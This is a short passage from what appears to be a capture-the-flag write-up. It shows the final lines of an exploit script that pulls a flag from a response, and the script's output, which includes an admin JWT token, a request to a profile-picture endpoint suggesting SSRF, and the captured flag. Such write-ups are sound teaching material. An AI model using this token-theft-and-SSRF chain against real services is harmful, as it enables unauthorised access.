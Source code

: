 ```python:exploit.py

flag = f"{re.findall('(NCC{(.*?)})', r.text)[0][0]}"
print(f"[*] Flag: {flag}")
```

Running this script, we get the following output:

```md
[*] Fetching the admin jwt token: {'JWT': 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.Dw4EfY6pBMfHZnG4Q4b9cSudgS_2XzcZ3sldeoQBleQ'}
[*] Making request to /set_profile_picture
[*] Flag: NCC{au7h_th3n_$$rf}
```
